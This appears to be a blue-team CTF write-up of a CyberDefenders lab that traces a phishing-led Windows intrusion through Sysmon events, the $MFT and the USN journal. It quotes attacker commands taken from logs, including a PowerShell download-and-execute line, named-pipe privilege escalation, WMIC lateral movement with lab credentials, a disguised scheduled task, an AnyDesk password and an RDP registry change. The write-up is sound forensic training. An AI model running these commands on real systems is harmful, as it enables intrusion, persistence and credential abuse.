






<!-- notion-metadata-start -->
*📅 Published: 2026-04-20 17:57 | 🔄 Last Updated: 2026-05-13 17:28*
<!-- notion-metadata-end -->
---


[https://cyberdefenders.org/blueteam-ctf-challenges/zerologon/](https://cyberdefenders.org/blueteam-ctf-challenges/zerologon/)


## Context {#35f7b0eb61a480d98ed2f4a04cf4d435}


Your role as a Tier 2 SOC Analyst at EliteSystems Corp is put to the test following an alert from the Tier 1 team about a confirmed phishing email leading to a potential network wide intrusion. With disk data already triaged and ready for analysis, you must uncover the extent of this intrusion and identify the compromised assets within the network.


## Basic triage {#35f7b0eb61a480a1a4ece3292cfbb25a}


I checked the event ID 1 on the system:


2024-01-02 19:44:02.245


	User: ELITESYSTEMS\esmith


	ParentImage: C:\Users\esmith\AppData\Local\Temp\easygoing.exe


	CommandLine C:\Windows\system32\rundll32.exe 


	cmd.exe /C netstat -anop tcp


	cmd.exe /C nslookup DC01


	cmd.exe /C nslookup FIN-PC


	cmd.exe /C nslookup FileServer 


	cmd.exe /C nslookup IT-PC


	Get-ADComputer -Filter * -Properties * | Export-CSV "C:\Users\esmith\Appdata\Local\Temp\ADComputers.csv" -NoTypeInformation


	C:\Windows\system32\cmd.exe /C dir /s *file/ Microsoft.ActiveDirectory.Management.dll


	C:\Windows\system32\cmd.exe /C dir /s *file/ Microsoft.ActiveDirectory.Management.dll


	IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:25816/'); Invoke-ShareFinder -CheckShareAccess -Verbose | Out-File -Encoding ascii C:\Users\esmith\Appdata\Local\Temp\found_shares.txt


 2024-01-02 20:44:


	  ParentImage C:\Windows\System32\rundll32.exe


		C:\Windows\system32\cmd.exe /c echo ddb867670d7 > \\.\pipe\308808


	C:\Windows\system32\cmd.exe /C wmic /node:192.168.202.126 /user:FileShareService /password:MYpassword123# logicaldisk get caption,description,drivetype,providername,volumename → lateral movement to fileshare


	 C:\Windows\system32\cmd.exe /C wmic logicaldisk get caption,description,drivetype,providername,volumename 


2024-01-02 21:35:06.488 


	C:\Windows\system32\cmd.exe /C schtasks /create /tn "ChromeUpdater" /tr "powershell -File 'C:\Users\esmith\AppData\Local\ChromeUpdater\ChromeUpdate.ps1'" /sc onlogon /ru System


2024-01-02 21:59:32.444


	powershell -nop -exec bypass -EncodedCommand .\localdisk.ps1


:::tip

Initial triage of the victim's environment revealed a phishing email sent to `esmith@elitesystemscorp.xyz` containing a malicious attachment named `documents.zip`.
Forensic analysis of the Master File Table (`$MFT`) using `MFTECmd.exe` and system event logs provided the timeline of execution. The parent image `C:\Users\esmith\AppData\Local\Temp\easygoing.exe` was observed spawning multiple suspicious child processes, including network discovery (`netstat`, `nslookup`), Active Directory enumeration, and lateral movement attempts via Windows Management Instrumentation Command-line (`WMIC`) and the execution of malicious of Powershell script.

:::


## Questions {#35f7b0eb61a480d68e55d418813aaecb}


### Q1 Analyzing the attack chain requires identifying the file that initiated the payload execution. Which shortcut file was generated after executing the payload-containing file extracted from the ZIP archive? {#3487b0eb61a480958229c58f8f6f5f25}


When a user opens a file in Windows, a corresponding LNK (shortcut) file is automatically generated by the operating system. By parsing the `$MFT` using `MFTECmd.exe` and analyzing the creation timestamps, we correlated the execution of the ZIP file to its artifact.


```powershell
.\MFTECmd.exe -f 'C:\Users\Administrator\Desktop\Start Here\Artifacts\FIN-PC\$MFT' --csv "C:\Users\Administrator\Desktop" --csvf "mft.csv”.
```





C:\Users\esmith\Downloads\documents.zip


> documents.lnk (Created: 2024-01-01 20:00:24).


### Q2 It’s essential to gather as much information as possible about the attack. Can you identify the malicious script inside the ZIP Archive? {#3487b0eb61a48083a6fff3472af4841b}


Further review of the `$MFT` extraction surrounding the `documents.zip` directory path revealed the specific payloads extracted by the user.





Since the question ask for the script. The answer must be:


> eyewear.bat


### Q3 By identifying the C2 IP address, we can gather clues about the attacker, such as their possible location, identity, or affiliation, and understand their motives. Can you identify the C2 IP address? {#3487b0eb61a4803fbee1ca74059d1b77}


Using event ID 3 associated with the execution of the payload: 


2024-01-02 08:28:46.122


	C:\Users\esmith\AppData\Local\Temp\easygoing.exe


	192.168.202.197
	42.63.200.142


	port 80
	


> 42.63.200.142


### Q4 A key step in an attacker's strategy is reconnaissance. What command was used to gather and export data about the domain's computers? {#3487b0eb61a480228717cc88e1d78c4b}


As we already found out the corresponding command in basic triage:


Get-ADComputer -Filter * -Properties * | Export-CSV "C:\Users\esmith\Appdata\Local\Temp\ADComputers.csv" -NoTypeInformation


The attacker utilized a built-in PowerShell Active Directory cmdlet to perform extensive network reconnaissance. 


	The `-Filter *` parameter was used to query the Domain Controller for all computer objects without exception. 


	The `-Properties *` parameter forced the Domain Controller to return all hidden and extended attributes for each machine (which can leak sensitive data such as OS versions, exact IPs, and administrator descriptions).


### Q5 With escalated privileges, an attacker can typically do more damage. What command did the attacker use to attempt privilege escalation? {#3487b0eb61a4805093ead8f6cd4312e6}


From the basic triage: 


 2024-01-02 20:44:


	  ParentImage C:\Windows\System32\rundll32.exe


		C:\Windows\system32\cmd.exe /c echo ddb867670d7 > \\.\pipe\308808


 The attacker abused Named Pipe Impersonation to elevate privileges. 

	- By utilizing their current permissions (likely a service account holding `SeImpersonatePrivilege`  - which often associated with web server, database accounts), the malware created a named pipe (`308808`).
	- It then forced a highly privileged process (`SYSTEM`) to interact with this pipe via the `echo` command. This allowed the malware to call the `ImpersonateNamedPipeClient()` API and steal the `SYSTEM` Access Token.

> echo ddb867670d7 &gt; \\.\pipe\308808


### Q6 We need to assess the severity of the breach. Was the attacker able to compromise any user account? Can you provide the password of the user account the attacker compromised? {#3487b0eb61a48094b9b6de093754ba2c}


We also figured out in the basic triage session:


C:\Windows\system32\cmd.exe /C wmic /node:192.168.202.126 /user:FileShareService /password:MYpassword123# logicaldisk get 


The Windows Management Instrumentation Command-line (WMIC) is a deprecated tool providing a command-line interface for WMI to manage Windows components, hardware, and software. It is  is heavily abused for lateral movement by executing commands or binaries on remote hosts using valid credentials


> MYpassword123#


### Q7 To ensure complete eradication, identifying and removing persistence mechanisms is essential to ensure the attacker can no longer access the compromised system. What's the command used by the attacker to achieve persistence? {#3487b0eb61a48051ad31d99708ece31c}


Same as previous questions, already found out in triage:


2024-01-02 21:35:06.488


> `schtasks /create /tn "ChromeUpdater" /tr "powershell -File 'C:\Users\esmith\AppData\Local\ChromeUpdater\ChromeUpdate.ps1'" /sc onlogon /ru System`


### Q8 Identifying the targeted data for exfiltration allows the organization to understand the potential impact of the breach and the data's confidentiality level. What's the full path of the folder whose data was targeted by the PowerShell script? {#3487b0eb61a480c7ae56ccbdc8ccb0a3}


Analysis of the UsnJrnl indicated that after attacker executed the localdisk.ps1, a new folder named C:\data was generated.





The journal showed that ZIP archives (e.g., `administrator.zip`, `esmith.zip`) were being created inside this folder, packaging data directly from the user directories.





So the answer must be:


> C:\users


### Q9 To understand the spread of the intrusion and discover possible lateral movement attempts. What is the name of the malicious service installed remotely on FileServer? {#3487b0eb61a480258836d916f2badc4a}


Reviewing the Event ID 11 on FileServer revealed a suspicious, randomly generated service name:


> 075b12b


### Q10 Credential dumpi~~n~~g can significantly expand the breach's impact, giving attackers access to numerous systems and data. Can you identify the process name that dumped credentials? {#3487b0eb61a480c2a5d4d31556899a25}


The attacker utilized a built-in Windows executable to dump credentials from memory (likely interacting with LSASS), bypassing standard execution restrictions via Living-off-the-Land (LotL) techniques.


By using the event ID 10 on the FileServer


> rundll32.exe


### Q11 Attackers usually install software on a target system to maintain long-term access, move laterally, access other systems, and expand their reach. What remote access software did the attacker install on one of the machines? {#3487b0eb61a480e1b47ee3caba93acbc}


I checked in the sysmon event ID 1 logs:





	FileServer.elitesystems.local	2024-01-02 21:21:42	C:\Windows\system32\cmd.exe /C echo Qwerty123!@#_! | AnyDesk.exe --set-password_	


> AnyDesk


### Q12 What password did the attacker set for the installed software? {#3487b0eb61a480dfb62ec36a7b0fdd74}


> Qwerty123!@#_!


### Q13 Attackers often enable RDP for more control. What command was used by the attacker to enable RDP? {#3487b0eb61a4805294e0d437de44e8ec}


To enable RDP attacker has to change the `fDenyTSConnections` value to 0


I navigated to sysmon Event ID 1 on DC01 and filtered for the key:





> reg  add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 


## The kill chain {#35f7b0eb61a4800a866bd014e49ace52}


The network intrusion began with a successful phishing attack delivering a malicious ZIP archive (`documents.zip`). Upon user interaction, the payload (`easygoing.exe`) was executed, establishing a Command & Control (C2) connection with `42.63.200.142`.


The threat actor moved swiftly through the cyber kill chain:

1. Reconnaissance: Enumerated the entire Active Directory structure using PowerShell.
2. Privilege Escalation: Successfully acquired `SYSTEM` rights via Named Pipe Impersonation.
3. Lateral Movement: Used compromised credentials (`FileShareService` / `MYpassword123#`) to pivot to the FileServer via WMIC.
4. Collection & Exfiltration: Scripted the automated compression of user profiles located in `C:\Users` into a staging directory (`C:\data`).
5. Persistence: Established multiple backdoors, including a disguised Scheduled Task ("ChromeUpdater"), an unauthorized AnyDesk installation, and the manual enablement of Remote Desktop Protocol (RDP) via Registry manipulation.
